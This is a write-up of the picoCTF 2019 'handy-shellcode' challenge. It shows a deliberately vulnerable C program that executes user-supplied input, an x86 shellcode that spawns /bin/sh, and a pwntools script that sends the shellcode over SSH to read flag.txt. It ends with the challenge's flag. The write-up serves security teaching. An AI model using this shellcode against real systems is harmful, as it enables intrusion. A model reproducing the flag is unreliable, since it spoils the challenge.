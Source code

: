 # handy-shellcode - Points: 50

## Description

This [program](./vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af on the shell server. [Source](./vuln.c).

## Solution

We're given a binary as well as the source code for this challenge.
The source code is shown below:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");

  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");

  return 0;
}
```

We can see that the ```vuln()``` function stores user input using ```gets(buf)``` and that memory at the address of ```buf``` is executed as a function here:

```c
((void (*)())buf)();
```

As the name of the challenge suggests, we need to input shell code that will allow us to read the flag file.
This can be done by calling ```/bin/sh``` and sending commands through ```stdin```.

To do this, I used shellcode from http://shell-storm.org/shellcode/ for Linux/Intel x86.
The code I chose was execve("/bin/sh") by Magnefikko, which can be found here: http://shell-storm.org/shellcode/files/shellcode-585.php

```
\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

## Exploit script

I used pwntools to connect to the shell server, start the process, and send the shellcode and commands to read the flag.
I then switched to interactive mode to receive the flag and allow me to input any other commands, though permissions were restricted to reading this flag only.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af'

print("running vuln")
vuln = conn.process(location + '/vuln')

print("sending payload")
vuln.sendlineafter('shellcode', '\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68')
vuln.sendlineafter('$', 'cd ' + location)
vuln.sendlineafter('$', 'cat ' + location + '/flag.txt')

print("done")
vuln.interactive()
```

## Flag

```picoCTF{h4ndY_d4ndY_sh311c0d3_5843b402}```


